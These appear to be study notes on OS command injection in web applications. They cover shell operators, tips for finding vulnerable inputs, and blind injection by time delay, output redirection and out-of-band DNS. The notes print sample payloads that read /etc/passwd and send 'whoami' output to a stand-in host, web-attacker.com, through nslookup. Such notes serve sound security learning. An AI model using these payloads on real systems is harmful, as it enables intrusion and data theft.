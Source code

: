 - OS command injection is a technique used via a web interface in order to execute OS commands on a web server
	- The user supplies operating system commands through a web interface in order to execute OS commands.
- can typically fully compromise the application and its data
- in band and blind/out-of-band injections
- appending a semicolon to the end of a URL for a .PHP page followed by an operating system command, will execute the command. `%3B` is URL encoded and decodes to semicolon
	`http://sensitive/something.php?dir=%3Bcat%20/etc/passwd`
# Explanation of Logical Operators 
- `&` - when added to the end of a command that take a long time to continue (`wget` a large file or `ping`) append `&` to the end of the command to run the command in the background or asynchronously
- `|` - this pipes the output of the first command as input into the second command
	- Uses of `|` will make command 2 to be executed whether command 1 execution is successful or not.
	- eg. `ls -l | grep ".txt"`
	- can also use `;` (Unix systems)
- `&&` - this runs the first command first and then then the second command synchronously
	- command 1 must succeed for command 2 to be performed (AND logical operator, both must be true)
- `||` - this runs either command 1 or command 2 (OR logical operator, either one must be true)
	- command 2 will only run if command 1 fails
- `$()` - captures output as a string
	- can output command as a variable for later use
	- `echo $(whoami)` or `$(touch test.sh; echo 'ls' > test.sh)`
- `\n` - starts a newline
	- only for Unix-based systems
# Tips & Tricks 
- if given multiple inputs, will have to try and see which one accepts system commands
- Useful Operators:
	- `| & || && ; \n $()`
- use ctrl+U to encode the payload. 
- append `&` for commands like `wget` or `ping` and && for normal commands at the end (there might be hidden OS command that runs after the client input, so use && or ||)
- leave the input blank and use `||` to ensure that the payload is the command that runs if the client input is a required field
- try each input to check if vulnerable because not all input will be vulnerable
- usually if there is a client input for email, it runs a OS command
	- try injecting payload there
- sometimes. the input controlled is within quotations
	- terminate the quoted string using ' or " before using operators
# In Band Command Injections
- analyze the response and determine if the application is vulnerable
# Blind/Injections
- trigger time delay or output the response of the command in the web root and retrieve file directly using a browser
## Blind OS Command Injections With Time Delays 
- use `ping -c 10 <ip>` to sleep the application for 10s
- if sleeps, input is vulnerable
Lab : [[Blind OS command injection with time delays]]
## Blind OS Command Injections By Redirecting Output
- redirect the response of the command and retrieve the file directly using the browser 
	- websites may be configured to serve files from a parent directory directory 
		- eg. if output the contents of the command echo "whoami" > /var/www/static/whoami.txt
		- using `example.com/whoami.txt` directly i can access the contents of `whoami.txt` 
## Blind Injections With Out-Of-Band Interactions
- trigger a out-of-band network interaction with a system you control
- example payload:
	`& nslookup kgji2ohoyw.web-attacker.com &`
	- this causes a DNS lookup
- add a system command to output it into the system controlled
	`& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`
	- this will append the output of `whoami` to the url
		`wwwuser.kgji2ohoyw.web-attacker.com`